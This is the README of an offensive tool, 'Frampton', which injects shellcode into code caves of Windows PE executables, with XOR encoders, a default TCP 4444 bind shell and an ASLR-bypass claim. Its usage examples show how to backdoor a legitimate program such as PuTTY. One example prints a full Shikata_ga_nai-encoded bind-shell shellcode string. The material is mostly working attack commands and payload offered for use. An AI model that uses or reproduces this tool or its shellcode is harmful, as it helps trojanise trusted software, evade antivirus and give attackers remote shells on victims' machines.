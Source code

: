 # Frampton
PE Binary Shellcode Injector - Automated code cave discovery, shellcode injection, ASLR bypass

## Install
`pip3 install -r requirements.txt`

## Usage
```
usage: frampton.py [-h] --file FILE [--shellcode SHELLCODE] [--output OUTFILE]
                   [--info] [--encoder] [--multi-encoder ENCODERMULTIPLE]

Frampton PE file Injector

optional arguments:
  -h, --help            show this help message and exit
  --file FILE, -f FILE  Filename or path to base template PE file
  --shellcode SHELLCODE, -s SHELLCODE
                        Enter custom shellcode - architecture specific x86/x64
                        (optional) - Default: Windows x86 TCP 4444 Bind Shell
  --output OUTFILE, -o OUTFILE
                        Filename or path to new destination PE file (optional)
  --info, -i            Only display code cave information - does not inject
                        or modify (optional)
  --encoder, -e         Use built-in shellcode XOR encoder - x86 only
                        (optional)
  --multi-encoder ENCODERMULTIPLE, -m ENCODERMULTIPLE
                        Specify the number of auto-generated keys to encode
                        shellcode (optional)
```

#### Information Only (no injection)
```./frampton.py -f FILENAME.exe -i```

#### Built-in basic bind shell (TCP 4444) 
```./frampton.py -f FILENAME.exe```

#### Built-in basic bind shell (TCP 4444) with XOR encoder
```./frampton.py -f FILENAME.exe -e```

#### Built-in basic bind shell (TCP 4444) with multiple XOR encoder
```./frampton.py -f FILENAME.exe -e -m 4```

#### Custom Shellcode Injector 
```./frampton.py -f FILENAME.exe -s "\xSH\xEL\xCO\xDE\xHE\xRE```

#### Custom Shellcode Injector with XOR encoder
```./frampton.py -f FILENAME.exe -s "\xSH\xEL\xCO\xDE\xHE\xRE -e```

#### Custom Shellcode Injector with multiple XOR encoder
```./frampton.py -f FILENAME.exe -s "\xSH\xEL\xCO\xDE\xHE\xRE -e -m 4```

## Example 

Encoding a 32-bit Putty PE file with Shikata_ga_nai encoding TCP bind shellcode, further encoding with 10 XOR keys.
```
./frampton.py -f putty.exe -e -m 10 -s "\xd9\xe8\xbd\xa0\xdb\xbd\x87\xd9\x74\x24\xf4\x58\x29\xc9\xb1\x53\x83\xc0\x04\x31\x68\x13\x03\xc8\xc8\x5f\x72\xf4\x07\x1d\x7d\x04\xd8\x42\xf7\xe1\xe9\x42\x63\x62\x59\x73\xe7\x26\x56\xf8\xa5\xd2\xed\x8c\x61\xd5\x46\x3a\x54\xd8\x57\x17\xa4\x7b\xd4\x6a\xf9\x5b\xe5\xa4\x0c\x9a\x22\xd8\xfd\xce\xfb\x96\x50\xfe\x88\xe3\x68\x75\xc2\xe2\xe8\x6a\x93\x05\xd8\x3d\xaf\x5f\xfa\xbc\x7c\xd4\xb3\xa6\x61\xd1\x0a\x5d\x51\xad\x8c\xb7\xab\x4e\x22\xf6\x03\xbd\x3a\x3f\xa3\x5e\x49\x49\xd7\xe3\x4a\x8e\xa5\x3f\xde\x14\x0d\xcb\x78\xf0\xaf\x18\x1e\x73\xa3\xd5\x54\xdb\xa0\xe8\xb9\x50\xdc\x61\x3c\xb6\x54\x31\x1b\x12\x3c\xe1\x02\x03\x98\x44\x3a\x53\x43\x38\x9e\x18\x6e\x2d\x93\x43\xe7\x82\x9e\x7b\xf7\x8c\xa9\x08\xc5\x13\x02\x86\x65\xdb\x8c\x51\x89\xf6\x69\xcd\x74\xf9\x89\xc4\xb2\xad\xd9\x7e\x12\xce\xb1\x7e\x9b\x1b\x2f\x76\x3a\xf4\x52\x7b\xfc\xa4\xd2\xd3\x95\xae\xdc\x0c\x85\xd0\x36\x25\x2e\x2d\xb9\x58\xf3\xb8\x5f\x30\x1b\xed\xc8\xac\xd9\xca\xc0\x4b\x21\x39\x79\xfb\x6a\x2b\xbe\x04\x6b\x79\xe8\x92\xe0\x6e\x2c\x83\xf6\xba\x04\xd4\x61\x30\xc5\x97\x10\x45\xcc\x4f\xb0\xd4\x8b\x8f\xbf\xc4\x03\xd8\xe8\x3b\x5a\x8c\x04\x65\xf4\xb2\xd4\xf3\x3f\x76\x03\xc0\xbe\x77\xc6\x7c\xe5\x67\x1e\x7c\xa1\xd3\xce\x2b\x7f\x8d\xa8\x85\x31\x67\x63\x79\x98\xef\xf2\xb1\x1b\x69\xfb\x9f\xed\x95\x4a\x76\xa8\xaa\x63\x1e\x3c\xd3\x99\xbe\xc3\x0e\x1a\xce\x89\x12\x0b\x47\x54\xc7\x09\x0a\x67\x32\x4d\x33\xe4\xb6\x2e\xc0\xf4\xb3\x2b\x8c\xb2\x28\x46\x9d\x56\x4e\xf5\x9e\x72"
```
